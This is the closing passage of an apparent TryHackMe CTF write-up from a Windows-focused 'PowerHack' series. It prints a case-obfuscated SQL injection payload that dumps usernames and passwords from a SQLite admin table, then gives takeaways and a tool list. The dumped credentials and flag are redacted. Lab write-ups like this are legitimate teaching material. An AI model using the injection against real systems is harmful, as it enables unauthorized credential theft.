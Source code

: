 
## 9️⃣ Extracting Admin & Flag (Obfuscated)

Same trick on `admintable`:

```
' UNIOn SELECt group_concat(username || ':' || password) FROM admintable '
```

Response:

```
Password: ########:########,flag:THM{##########_########_#####}
```

✅ Admin and flag successfully dumped — but we **won’t expose** the flag content here to comply with TryHackMe’s rules.

---

## ✅ Summary: Key Takeaways

* 🧠 **SQL Injection** can be exploited even without login forms — any unsanitized input may be vulnerable.
* 🔐 **SQLite** makes it easier to enumerate structure via `sqlite_master`.
* 💥 Using **PowerHack-style tooling** (e.g., `ncat.exe`, PowerShell) on **Windows** lets you hack without needing Kali or Linux distros.

---

## 🧰 Tools Used (Windows)

* `ncat.exe` — TCP communication with service
* PowerShell — for automation, encoding payloads, testing delays

---

## 🎯 Completion

We accomplished:

* ✅ SQL injection discovery
* ✅ Enumerated database
* ✅ Retrieved all users
* ✅ Extracted admin + flag (redacted)

🏁 **Light CTF Complete** – Windows-style.

---

## 🔁 Outro

This write-up is part of the **PowerHack** series — where we show how to hack CTFs and bug bounty targets using **only Windows + PowerShell tools**. No Linux box required.

Follow along to level up your recon and exploitation skills in a real-world Windows-friendly workflow. 💻⚡
